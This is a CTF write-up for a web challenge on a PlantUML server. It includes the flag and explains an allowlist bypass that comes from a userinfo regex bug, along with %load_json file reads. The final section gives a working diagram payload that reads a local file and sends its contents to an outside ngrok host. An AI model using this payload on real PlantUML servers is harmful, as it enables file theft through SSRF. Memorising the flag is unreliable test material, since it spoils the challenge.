


# PlantUML

**Author**: zeyu2001

**Category**: Web

Flag: `SEE{f1n4lly_y0u_SEE_th3_fl4g_94754d0abb89e4cf0a7f1c494dbb9d2c}`

## Description

I don't actually know how to draw UML please help

## Difficulty

Easy/Medium

## Solution

The server runs the latest version of PlantUML. The flag is stored in a JSON file at `/usr/local/tomcat/flag.txt`. We need to access the file and exfiltrate its contents, but:

- `ALLOW_PLANTUML_INCLUDE` is not set
- `PLANTUML_SECURITY_PROFILE` is set to allowlist, and only whitelists the `https://plantuml.com` URL.

Attempting to use the `!include` directive will fail because of the above configuration.

RTFM: https://plantuml.com/preprocessing

In the [builtin functions section](https://plantuml.com/preprocessing#291cabbe982ff775), there is a `%load_json` function that allows us to

> Load JSON data from local file or external URL

While `ALLOW_PLANTUML_INCLUDE` is checked for `!include`, it is not checked for `%load_json`, even though both pose the same security risk (local file read and SSRF).

That's pretty promising, but we still can't exfiltrate out of band because of the URL allowlist that blocks anything other than `https://plantuml.com`.

Taking a closer look at how the check is performed,

https://github.com/plantuml/plantuml/blob/v1.2023.8/src/net/sourceforge/plantuml/security/SURL.java#L306-L313

```java
private boolean isInUrlAllowList() {
  final String full = cleanPath(internal.toString());
  for (String allow : getUrlAllowList())
    if (full.startsWith(cleanPath(allow)))
      return true;

  return false;
}
```

The URL is first cleaned through `cleanPath`, then checked against the allowlist with `startsWith`. The `cleanPath` function is defined as follows:

```java
private String cleanPath(String path) {
  // Remove user information, because we don't like to store user/password or
  // userTokens in allow-list
  path = removeUserInfoFromUrlPath(path);
  path = path.trim().toLowerCase(Locale.US);
  // We simplify/normalize the url, removing default ports
  path = path.replace(":80/", "");
  path = path.replace(":443/", "");
  return path;
}
```

`removeUserInfoFromUrlPath` attempts to remove the user information (basic auth) from the URL. This should be a good thing, because it should prevent a bypass like `https://plantuml.com@evil.com`. However, a tiny mistake renders the whole function useless:

```java
private static String removeUserInfoFromUrlPath(String url) {
  // Simple solution:
  final Matcher matcher = PATTERN_USERINFO.matcher(url);
  if (matcher.find())
    return matcher.replaceFirst("$1$3");

  return url;
}
```

Consider the following regex that captures the user information in the 2nd group and the actual host in the 3rd group.

```java
private static final Pattern PATTERN_USERINFO = Pattern.compile("(^https?://)([-_0-9a-zA-Z]+@)([^@]*)");
```

It assumes that the user information part always contains the characters `[-_0-9a-zA-Z]+`. So if we use `https://plantuml.com@evil.com`, there is no match! In fact, the regex fails to perform its intended function since the format for user information in URLs is `<username>:<password>@<host>` and the regex does not contain `:`.



We just have to do a bit of programming in PlantUML to exfiltrate the flag:

1. Host a `dummy.json` on your own server containing valid JSON.
2. Load the following diagram on PlantUML:

```
@startuml
!$str = %load_json("/usr/local/tomcat/flag.txt")
!$list = %splitstr($str, " ")
!foreach $item in $list
  Alice->Bob: %load_json("https://plantuml.com@806f-122-11-248-245.ngrok-free.app/dummy.json?" + $item)
!endfor
@enduml
```

3. Profit

